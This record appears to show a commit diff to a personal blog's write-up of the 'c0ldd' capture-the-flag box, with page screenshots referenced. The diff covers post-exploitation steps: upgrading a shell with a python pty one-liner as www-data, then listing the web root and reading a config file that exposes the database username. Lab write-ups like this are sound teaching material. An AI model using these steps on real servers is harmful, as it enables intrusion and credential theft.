

Before and after one commit to Backkk/Backkk.github.io, a plain HTML site: page post/c0ldd_box/writeupp_c0ldd/index.html in a window 1280 px wide. Shown: the part 5000-5927 px from the top of the page, without its empty margins (8-895 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
modif_blog_2

```diff
--- a/post/c0ldd_box/writeupp_c0ldd/index.html
+++ b/post/c0ldd_box/writeupp_c0ldd/index.html
@@ -245,7 +245,9 @@ $
 <p><code>$ python3 -c 'import pty; pty.spawn(&quot;/bin/bash&quot;)'</code></p>
 <p>Now we have a terminal, we can see that we are the user <strong>www-data</strong>, so we have rights to edit/delete some files of the web server. Let&rsquo;s check it out!</p>
 <p><code>cd /var/www/html</code></p>
-<p>c</p>
+<p><code>ls</code></p>
+<p><code>wp-admin.php</code></p>
+<p>let&rsquo;s look at the <strong>wp-admin.php</strong> file :</p>
 <pre><code>/** MySQL database username */
 define('DB_USER', 'c0ldd');
 
```
